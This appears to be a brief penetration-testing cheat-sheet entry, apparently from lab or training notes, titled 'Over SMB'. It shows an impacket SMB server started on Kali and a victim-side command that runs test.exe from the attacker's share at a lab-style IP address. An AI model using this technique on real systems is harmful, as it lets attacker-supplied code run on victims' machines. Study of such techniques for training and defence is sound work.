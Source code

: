 # Over SMB

On Kali
```
impacket-smbserver test1 `pwd`
```

On Victim
```
\\10.10.14.9\test1\test.exe
```
